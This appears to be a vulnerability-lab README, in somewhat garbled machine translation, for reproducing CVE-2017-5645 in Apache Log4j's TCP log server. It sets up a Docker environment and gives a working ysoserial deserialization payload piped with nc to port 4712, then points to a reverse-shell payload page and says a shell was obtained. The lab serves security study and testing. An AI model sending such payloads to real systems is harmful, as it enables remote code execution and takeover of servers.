


# Apache Log4j Server Deserialization Command Execution Vulnerability (CVE-2017-5645)

Apache Log4j is a logging library for Java that supports launching a remote log server. A security vulnerability exists in the 2.x version prior to Apache Log4j 2.8.2. An attacker could exploit the vulnerability to execute arbitrary code.

## vulnerability environment

Run the following command to start the vulnerability environment.

```
Docker-compose up -d
```

After the environment is started, a TCPServer will be opened on port 4712.

Say, in addition to using vulhub's docker image to build the environment, we downloaded the log4j jar file and can start the TCPServer directly on the command line: `java -cp "log4j-api-2.8.1.jar:log4j-core-2.8 .1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`, without using vulhub and writing code.

## Vulnerability recurrence

We use ysoserial to generate the payload, and then send it directly to the `your-ip:4712` port.

```
Java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

Then execute `docker-compose exec log4j bash` into the container, visible /tmp/success has been successfully created:



Execute [Bounce Shell Command] (http://jackson.thuraisamy.me/runtime-exec-payloads.html) and successfully bounce back to the shell:

